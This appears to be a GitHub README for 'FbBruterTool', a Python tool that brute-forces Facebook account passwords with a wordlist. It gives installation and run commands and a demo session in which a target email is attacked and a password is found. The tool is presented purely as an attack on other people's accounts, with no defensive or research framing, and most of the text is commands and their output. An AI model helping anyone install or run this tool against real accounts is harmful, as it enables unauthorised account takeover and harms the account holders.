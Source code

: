# FbBruterTool
Facebook Dictionary Brute Force

# Installing
```
pip install mechanize
```
```
git clone https://github.com/0sssama/FbBruterTool/
```
```
cd FbBruterTool
```
```
python fb-bruter.py
```

# Demo
```
root@username:~ python fb-bruter.py
[?] Target Username/ID/Email >>> my.target@something.com

[?] Wordlist Directory >>> passwordFile.lst

BruteForcing my.target@something.com Now...

[!] Wrong Password! > qwertyuiop
[!] Wrong Password! > qwertyuiop123
[!] Wrong Password! > 123456789

#############################################

[+] Password Found! > password123

root@username:~ 
```
